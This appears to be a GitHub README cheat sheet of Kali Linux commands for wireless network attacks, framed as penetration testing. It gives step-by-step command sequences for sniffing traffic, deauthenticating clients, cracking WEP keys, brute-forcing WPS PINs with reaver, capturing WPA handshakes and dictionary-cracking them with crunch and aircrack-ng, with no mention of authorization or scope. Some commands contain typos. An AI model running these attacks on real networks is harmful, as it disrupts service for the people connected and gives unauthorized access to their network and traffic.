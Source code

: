 # Useful Hacking and Penetration Testing Commands

Useful commands in Kali Linux for penetration testing and ethical hacking

## Basic Linux commands: Device information

View information about your own device. IP addresses, adapters connected, etc... 

```bash
ifconfig 
```
View information about wireless interfaces in your device

```bash
iwconfig
```
To change wireless adapter into monitor mode. Monitor mode allow us to sniff packets through the network

```bash
iwconfig wlan0 mode monitor
```

## Preconnection Attack: Airodump-ng

Discover wireless networks within range:
```bash
airodump-ng wlan0
```

To sniff packets in the selected network: 

```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
bssid: mac address of target network
channel: channel of the network
write: if you want to store the packets in a file
wlan0: wireless adapter name

The test file will be available with the .cap file. 
View the .cap file in ```wireshark test.cap```

## Deauthentication Attack

Disconnect any client form any network

```bash
aireplay-ng --dauth <NumOfPackets> -a <NetworkMacaddress> -c <TargetClientMacAddress> -e <WifiNname> <iterface-wlan0>
```
## WEP Cracking

1. Capture a large number of packets with airodump-ng
```bash
airodump-ng --bssid _____ --channel _ --write _test_ wlan0 
```
2. Analyse the captured packets and crack the key with aircrack-ng
```bash
aircrack-ng .capfile
```
3. output: KEY IS FOUND
4. Remove the colons from the key and use it as password

## Fake Authentication Attack

```bash
aireplay-ng --fakeauth 0 -a <TargetMacAddress> -h <WirelessAdapterMacAddress> <interface>
```
**NOTE: Type "ifconfig" to view wireless adapter mac address (unspec ---> first 12 digits)**

This attack injects packets in the network.

## WPA/WPA2
If WPS is Enable:
1. Displays networks with WPS enabled
```bash 
wash --interface wlan0
```
2. 
```bash
aireplay-ng --fakeauth <30> -a <TargetMacAddress> --interface <wlan0>
```
3. Run Reaver in another terminal window
```bash
reaver --bssid <TargetMacAddress> --channel <TargetChannel> --interface <wlan0> -vvv --no-associate
```
**NOTE: if bug error, then download older version of reaver and run ./reaver _______ **

4. Results: WPS PIN and WPA PSK

If WPS is disable:
1. Capture Handshake between devices
```bash
airodump-ng --bssid <TargetMacAddress> --channel <Channel> --write <handshake> <wlan0>
```
- Wait for the handshake
- wait for a new client or disconnect a client with a fake auth attack. 
- WPA handshake stored in the file 

- Create a wordlist
```bash 
crunch [min][max][characters] -T[pattern] -o [FileName]
```
Exampel:
```bash
crunch 6 8 abc12 -o test.txt
```
2. Wordlist attack 
```bash
aircrack-ng <handshake.cap> -w <text.txt>
```




## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)